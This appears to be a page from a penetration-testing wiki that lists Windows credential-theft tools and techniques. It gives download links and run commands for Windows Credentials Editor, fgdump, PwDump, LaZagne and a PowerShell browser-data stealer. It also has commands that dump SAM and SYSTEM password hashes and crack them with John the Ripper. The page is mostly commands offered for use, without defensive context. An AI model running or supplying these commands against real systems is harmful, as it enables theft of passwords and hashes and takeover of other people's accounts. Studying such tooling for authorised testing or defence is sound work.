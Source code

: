# Other Tools / Techniques

### credential editor

This tool can be used to extract credentials from the memory. Download it from:

{% embed url="https://www.ampliasecurity.com/research/windows-credentials-editor/" %}

### fgdump

Extract credentials from the SAM file. You can find this binary inside Kali, just do:

```
 locate fgdump.exe
```

then run it on windows:

```
fgdump.exe
```

### PwDump

Extract credentials from the SAM file

You can find this binary inside Kali, just do:

```
locate pwdump.exe
```

run it on windows with:

```
PwDump.exe -o outpwdump -x 127.0.0.1
type outpwdump
```

### Generate a hash file for John using pwdump or samdump2.

```
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Then crack it with:

```
john -format=NT /root/sam.txt
```

### PwDump7

{% embed url="http://www.tarasco.org/security/pwdump_7" %}

### Lazagne

{% embed url="https://github.com/AlessandroZ/LaZagne/releases/" %}

{% embed url="https://github.com/AlessandroZ/LaZagne" %}

```
lazagne.exe all
```

### get-browserdata(powershell)

{% embed url="https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Get-BrowserData.ps1" %}

```
Get-BrowserData.ps1 | Format-List
```
